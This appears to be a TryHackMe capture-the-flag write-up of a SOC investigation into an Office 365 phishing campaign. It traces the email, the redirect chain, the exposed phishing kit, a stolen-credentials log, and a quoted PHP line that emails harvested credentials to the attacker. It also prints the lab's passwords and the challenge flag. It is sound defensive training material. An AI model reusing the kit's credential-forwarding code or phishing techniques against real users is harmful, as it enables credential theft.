# Snapped Phish-ing Line — SOC Investigation Write-up
**Platform:** TryHackMe  
**Room:** Snapped Phish-ing Line  
**Author:** Jasden Singh  
**Date:** April 2026  
**Tags:** `Phishing` `Phishing Kit Analysis` `Multi-Stage Attack` `Credential Harvesting` `CTI` `SOC`

---

## Scenario

Multiple employees at SwiftSpend Financial reported receiving suspicious emails on the same day. Several had already submitted their credentials and found themselves locked out of their accounts — a sign that the attack was actively harvesting and using stolen logins in real time. The incident was escalated to the SOC for full investigation.

**Objectives:**
- Identify all targeted employees and the scope of compromise
- Trace the phishing infrastructure from email to credential harvesting page
- Retrieve and analyse the phishing kit left exposed by the attacker
- Extract attacker IOCs including the collection email address
- Determine which victims actively submitted credentials

---

## Investigation

### Step 1 — Email Sample Review

The `phish-emails` folder on the desktop contained 5 email files — 4 Group Marketing Online emails and 1 Quote for Services Rendered email.



Opening the Quote for Services Rendered email revealed the first key details:



| Field | Value |
|---|---|
| Recipient | `william.mcclean@swiftspend.finance` |
| From (Display Name) | `Group Marketing Online Accounts Payable` |
| From (Actual Address) | `Accounts.Payable@groupmarketingonline.icu` |
| Subject | `Quote for Services Rendered: processed on June 29, 2020, 10:01:32 AM` |
| Attachment | `Quote.pdf` (107 KB) |
| Date | `29 June 2020, 06:01` |

**Key Findings from Email Analysis:**

- The sending domain was `groupmarketingonline.icu` — the `.icu` TLD is commonly associated with low-cost domains used in phishing campaigns and is not a credible domain for a legitimate marketing company
- The email used a **professional-looking signature** with a logo, phone numbers, and a physical address to appear legitimate — a deliberate trust-building tactic
- The email gateway correctly flagged this as an external sender with a warning banner, but the employee still interacted with it
- The attachment was labelled `Quote.pdf` — a believable filename for a business context that would lower the recipient's guard

---

### Step 2 — Attachment & Redirect Chain Analysis

The PDF attachment sent to Zoe Duncan was opened in the VM browser to trace the redirect chain.



The attachment contained an embedded link that redirected to a credential harvesting page hosted at:

```
kennaroads.buzz/data/Update365/office365/40e7baa2f826a57fcf04e5202526f8bd/enterpassword.php
```

| Field | Value |
|---|---|
| Root Domain | `kennaroads.buzz` |
| Full Path | `/data/Update365/office365/[unique token]/enterpassword.php` |
| Page Title | `Sign in to your account` |
| Company Impersonated | **Microsoft (Office 365)** |
| SSL Certificate | ❌ Not Secure — HTTP only |
| Pre-filled Email | `zoe.duncan@swiftspend.finance` |

**Key Findings:**

The page was a convincing clone of the Microsoft Office 365 login portal, pre-filled with the victim's email address — meaning the attacker had already harvested the email list before sending the phishing emails. The URL contained a unique token per victim, allowing the attacker to track exactly who clicked and submitted.

Firefox itself flagged the connection as insecure with a warning: *"This connection is not secure. Logins entered here could be compromised"* — a clear indicator the page lacked HTTPS, which no legitimate Microsoft login page would.

---

### Step 3 — Exposed Attacker Infrastructure

Navigating to the `/data` directory of the phishing domain revealed that the attacker had left **directory listing enabled** — a critical OPSEC failure that exposed the entire phishing infrastructure.



| File/Folder | Date Modified | Size | Significance |
|---|---|---|---|
| `Update365.zip` | 2023-04-16 | 394K | Phishing kit archive |
| `Update365/` | 2023-05-03 | — | Live deployed phishing kit |

This is a significant attacker mistake. By leaving directory listing enabled, the entire phishing kit — including the credential collection scripts and the stolen credentials log — was publicly accessible to anyone who navigated to the `/data` path.

---

### Step 4 — Phishing Kit Analysis

The `Update365.zip` archive was downloaded to the virtual environment and its SHA256 hash calculated.



```
sha256sum Update365.zip
ba3c15267393419eb08c7b2652b8b6b39b406ef300ae8a18fee4d16b19ac9686
```

The hash was submitted to VirusTotal for analysis.



| Field | Value |
|---|---|
| SHA256 | `ba3c15267393419eb08c7b2652b8b6b39b406ef300ae8a18fee4d16b19ac9686` |
| File Size | `393.55 KB` |
| Filename | `Update365.zip` |
| VirusTotal Detections | **29 / 66 vendors flagged as malicious** |
| Popular Threat Label | `trojan.phishmailer/phishingms` |
| Threat Categories | **Trojan**, Phishing |
| Family Labels | `phishmailer`, `phishingms` |
| Number of Files in Archive | **49** |

**Key Finding:** The kit is categorised as both a **phishing tool and a trojan** — the `phishmailer` family label indicates it contains automated credential-forwarding functionality, meaning captured credentials are immediately emailed to the attacker rather than simply stored in a log file.

---

### Step 5 — Stolen Credentials Log

Navigating to `/data/Update365/` revealed another directory listing with a live `log.txt` file — the attacker's stolen credentials store, openly accessible on the web.





The log file revealed multiple SwiftSpend Financial employees had submitted their credentials:

| Email | Password Submitted | IP Address | Country | Submitted Twice? |
|---|---|---|---|---|
| `isaiah.puzon@gmail.com` | `PhishMOMUKAMO123!` | 158.62.17.197 | Philippines | No |
| `michael.ascot@swiftspend.finance` | `Invoice2023!` | 64.62.197.80 | United States | ✅ Yes |
| `zoe.duncan@swiftspend.finance` | `PassW0rd1!` | 64.62.197.80 | United States | No |
| `derick.marshall@swiftspend.finance` | [visible in log] | — | — | No |



**Key Finding:** `michael.ascot@swiftspend.finance` submitted credentials **twice** from the same IP address — indicating either a re-submission after an error, or the attacker's kit redirected the user to try again (a common phishing kit technique to maximise credential quality). This account should be treated as **highest priority for remediation**.

The log also contained a tag on every entry: `--+ Created BY Real Carder +---` — an attacker signature embedded in the phishing kit, providing a threat actor attribution indicator.

---

### Step 6 — Phishing Kit Source Code Analysis

The `Update365.zip` archive was extracted and the `submit.php` file located inside the kit.





Examining the `submit.php` source code at line 112 revealed the attacker's credential collection email address:

```php
mail("m3npat@yandex.com", $bron, $message, $lagi);
```

| Field | Value |
|---|---|
| Collection Email | `m3npat@yandex.com` |
| Email Provider | Yandex (Russian free email provider) |
| Function | Every submitted credential is emailed directly to this address in real time |

**Key Finding:** The use of a **Yandex email address** is a notable IOC. Yandex is commonly used by threat actors as it is outside the jurisdiction of US/EU law enforcement, making account takedown requests slower and more difficult. Combined with the `Real Carder` signature in the log, this suggests a financially motivated threat actor.

---

### Step 7 — Flag Discovery

Navigating to `kennaroads.buzz/data/Update365/office365/flag.txt` revealed an encoded string left by the room as a challenge flag.



```
The secret is:
fUxSVV8zSHRfaFQxd195NExwe01IVAo=
```

Decoding the Base64 string using CyberChef produced the decoded flag:

```
THM{pL4y_w1Th_tH3_URL}
```

The flag itself is a reminder of the core lesson from this room — the attacker's infrastructure was entirely exposed through URL manipulation, and a curious analyst could navigate the directory structure to uncover the full phishing operation.

---

## Full IOC Summary

| IOC Type | Value | Verdict |
|---|---|---|
| Sending Email | `Accounts.Payable@groupmarketingonline.icu` | Malicious |
| Phishing Domain | `kennaroads.buzz` | Malicious |
| Phishing Kit Archive | `Update365.zip` | Malicious |
| Kit SHA256 Hash | `ba3c15267393419eb08c7b2652b8b6b39b406ef300ae8a18fee4d16b19ac9686` | Malicious — 29/66 detections |
| Credential Collection Email | `m3npat@yandex.com` | Attacker-controlled |
| Threat Actor Signature | `Created BY Real Carder` | Attribution indicator |
| Malware Family | `trojan.phishmailer / phishingms` | Credential-forwarding trojan |

---

## Compromised Accounts — Priority List

| Priority | Account | Action Required |
|---|---|---|
| 🔴 Critical | `michael.ascot@swiftspend.finance` | Force password reset immediately — submitted twice |
| 🔴 Critical | `zoe.duncan@swiftspend.finance` | Force password reset — confirmed submission |
| 🔴 Critical | `derick.marshall@swiftspend.finance` | Force password reset — confirmed in log |
| 🟡 Medium | `william.mcclean@swiftspend.finance` | Investigate — received email, may have clicked |
| ⚪ External | `isaiah.puzon@gmail.com` | External — notify if contact details available |

---

## Verdict

**Classification:** ✅ MALICIOUS — Coordinated multi-stage phishing campaign  
**Severity:** 🔴 CRITICAL — Active credential compromise confirmed  
**Threat Type:** Phishing kit with real-time credential forwarding (PhishMailer)  
**Scope:** Multiple SwiftSpend Financial employees targeted simultaneously

---

## Recommended Actions

1. **Immediately force password resets** for all confirmed compromised accounts
2. **Enable MFA** across all SwiftSpend Financial accounts if not already enforced
3. **Block the domain** `kennaroads.buzz` and sending domain `groupmarketingonline.icu` at email gateway and firewall
4. **Block the collection email** `m3npat@yandex.com` and submit it as an IOC to threat intelligence platforms
5. **Block the kit hash** `ba3c15267393419eb08c7b2652b8b6b39b406ef300ae8a18fee4d16b19ac9686` in endpoint security
6. **Hunt for lateral movement** — accounts were locked out, indicating credentials were used post-harvest. Review authentication logs for unusual login locations or times after 29 June 2020 10:00 AM
7. **Review email gateway configuration** — the external sender warning was present but did not prevent interaction. Consider enforcing stricter attachment policies for `.icu` TLD senders
8. **Report the exposed infrastructure** — the `/data` directory on `kennaroads.buzz` was openly accessible. Consider reporting to the hosting provider for takedown

---

## Key Takeaways

**1. Directory listing enabled = full infrastructure exposure.**
The attacker's biggest mistake was leaving Apache directory listing on. This turned a one-way attack into a two-way investigation — the analyst could navigate the entire kit, read stolen credentials, and extract the collection email address. Always check adjacent directories when investigating phishing infrastructure.

**2. Phishing kits are software — and they leave fingerprints.**
The `submit.php` file contained the attacker's collection email hardcoded in plaintext. Analysing phishing kit source code is a standard CTI technique that can directly attribute infrastructure to a threat actor.

**3. Per-victim URL tokens reveal attacker sophistication.**
Each victim's link contained a unique hash token. This means the attacker pre-compiled the victim list, generated individual links per target, and could track clicks and submissions per person — not a mass spray campaign but a targeted operation against SwiftSpend Financial specifically.

**4. Real-time credential forwarding is a critical escalation factor.**
The PhishMailer family forwards credentials via email the moment they are submitted. This means the attacker could be logging in with stolen credentials within seconds of the victim submitting them — explaining why users were already locked out before the SOC was notified.

**5. Threat actor signatures aid attribution.**
The `Created BY Real Carder` string embedded in the kit log is an OPSEC failure by the attacker. Signatures like this can be searched across threat intelligence platforms to link multiple campaigns to the same actor or kit variant.

---

*Write-up by Jasden Singh | [LinkedIn](https://www.linkedin.com/in/jasden-singh-8425b3268/) | [GitHub](https://github.com/jasden)*
